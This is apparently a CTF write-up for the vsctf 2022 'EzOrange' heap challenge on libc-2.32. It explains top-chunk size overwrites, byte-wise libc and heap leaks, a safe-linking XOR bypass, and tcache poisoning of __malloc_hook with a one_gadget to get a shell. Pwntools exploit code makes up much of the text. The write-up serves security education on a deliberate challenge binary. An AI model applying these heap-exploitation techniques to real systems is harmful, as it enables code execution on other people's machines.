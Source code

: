 ```yaml
---
layout: post
readtime: true
tags: [tcache_poisoning,uaf,sysmalloc,top_chunk]
---
```


### Attachments : [ezorange](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ezorange) , [libc.so.6](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/libc.so.6), [ld-2.23.so](https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/ld-2.32.so)
<br>
EzOrange was an interesting heap exploitation challenge from vsctf 2022. This challenge uses libc-2.32. There are two options, `Buy an orange` and `Modify part of orange`. The first options allows us to allocate chunks of size <= 0x1000 and index(Orange number) either 0 or 1. The second option asks for an index(Orange number) and a cell index, prints the byte present at the cell index and then reads a new value for it(that can be controlled by the user). Thus, we have an arbitrary read/ write primitive, one byte at a time. There's no function that would allow us to free a chunk. Let's create some helper functions for malloc, read and write


```
def buy_orange(orange_number,size):
    p.sendlineafter("> ","1") 
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Size: ",str(size))

def modify_orange(orange_number,cell_index,value):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.sendlineafter("New value: ",str(value))

def leak_byte(orange_number,cell_index):
    p.sendlineafter("> ","2")
    p.sendlineafter("Orange number: ",str(orange_number))
    p.sendlineafter("Cell index: ",str(cell_index))
    p.recvuntil("Current value: ")
    leak = p.recvline()[:-1]
    p.sendlineafter("New value: ",leak)
    return leak

```
Alright, after writing a few helper functions, our goal is to generate a libc leak. This can be done by inserting a chunk into the unsorted bin and then reading the fd or bk, one byte at a time. But, wait a minute, there's no such functionality present in the binary that allows us to free a chunk. So, how do we insert a chunk into the unsorted bin if we can't free it? Well, in this case we can indirectly free a chunk by overwriting the `SIZE` field of the top chunk with a small value followed by large allocations. Whenever `malloc` receives a request that is too large to be serviced by an arena's top chunk or bins, the normal arenas handle it by changing permissions on the pre-mapped heap memory but the main arena invokes the `brk` system call to request memory from the kernel after which `malloc` checks the `SIZE` field to find out whether the newly allocated memory is contiguous to the heap or not. If it is, `malloc` extends the size of the top chunk. If the `SIZE` of the top chunk is overwritten with a small value and a large request to `malloc` is made, `malloc` finds out that the new memory doesn't border the end of the heap because of the fake size field of the top chunk. Since the newly allocated memory is larger, `malloc` starts a new heap right there by freeing the previous top chunk and moving the top chunk pointer to the newly allocated memory. Internally, the `sysmalloc` function is called. But, you cannot overwrite the top_chunk `SIZE` field with any value, there's a check involved in it.

```
static void * sysmalloc (INTERNAL_SIZE_T nb, mstate av)
{
.....
  assert ((old_top == initial_top (av) && old_size == 0) ||
          ((unsigned long) (old_size) >= MINSIZE &&
           prev_inuse (old_top) &&
           ((unsigned long) old_end & (pagesize - 1)) == 0));
.....
}
```
The `PREV_INUSE` bit of the top chunk must be set and the chunk should end on a page boundary. 

Alright, so let's start the attack by allocating a chunk
```
buy_orange(0,24)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img1.png"/>

Now, we need to overwrite the `SIZE` of the top chunk with the value `0xd51` followed by a large request. This would free the top chunk and insert it into the unsorted bin. 
```
value = 0xd51
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```
After that, we can leak data from the free chunk, one byte at a time to get a libc leak.

```
libc_leak = b'\x00'
for i in range(33,40):
    leak = leak_byte(0,i)
    leak = int(leak)
    libc_leak += p8(leak)
leak = u64(libc_leak)
libc.address = leak-0x1c5c00
log.critical("Libc base: {}".format(hex(libc.address)))
```
Now, after getting the libc base address, we'll try overwriting `__malloc_hook` with `one_gadget`. This can be done by inserting chunks into the tcache and corrupting the `fd`.
```
# Let's remove the chunk from the unsorted bin
buy_orange(0,0xd28)
buy_orange(0,0x10)
```
We can again overwrite the `SIZE` field of the top chunk and make large allocations to insert a chunk into the tcache. So, let's overwrite the `SIZE` of the top chunk with 0x221 and make a large request free a chunk and insert into the tcache.

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img2.png"/>
```
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)
```

<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img3.png"/>
Alright, so we've successfully inserted a chunk into the tcache. Now, the only thing that's left is to overwrite `__malloc_hook` with `one_gadget`. 
Let's leak the `fd` field from the free chunk. 
```
heap_leak1 = b''

for i in range(0x20,0x28):
    leak = leak_byte(0,i)
    leak = int(leak)
    heap_leak1 += p8(leak)
heap_leak1 = heap_leak1.ljust(8,b'\x00')
heap_leak1 = u64(heap_leak1)

```
libc2.32 has a check on the count fields in tcache. This can be bypassed by inserting one more chunk into the tcache , which would increase the count field of that particular tcache bin to 2. After that, we can corrupt the `fd` of the most recently freed chunk. 
```
buy_orange(0,0x10)
value = 0x221
modify_orange(0,24,value&0xff)
modify_orange(0,25,value>>8)
modify_orange(0,26,0)
buy_orange(1,3500)

heap_leak1 += 0x22
```
Now, libc2.32 includes an exploit mitigation known as [safe linking](https://research.checkpoint.com/2020/safe-linking-eliminating-a-20-year-old-malloc-exploit-primitive/). Basically, it obfuscates the `fd` of chunks that belong to bins that are singly linked.
In order t6o insert the `__malloc_hook` into the free list, we'll need to xor it with the heap leak.
```
__malloc_hook = __malloc_hook ^ heap_leak1
__malloc_hook = p64(__malloc_hook)
```
Now, we're all set. Let's launch tcache poisoning.
```
for i in range(0x20,0x28):
    modify_orange(0,i,__malloc_hook[i-0x20])
```

So, we've successfully inserted the `__malloc_hook` into the free list. Let's grab it.
<img src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img4.png">

```

buy_orange(0,0x1f8)
buy_orange(0,0x1f8)
one_gadget = libc.address + 0xceb71
one_gadget = p64(one_gadget)
```
Overwrite `__malloc_hook` with `one_gadget` and call `malloc` to drop a shell
```
for i in range(0,8):
    modify_orange(0,i,one_gadget[i])
buy_orange(0,0x10)
```
<img  src="https://github.com/0xSh4dy/ctf_writeups/raw/master/vsctf2022/EzOrange/images/img5.png">

### Complete exploit can be found [here](https://github.com/0xSh4dy/ctf_writeups/blob/master/vsctf2022/EzOrange/ezorange.py)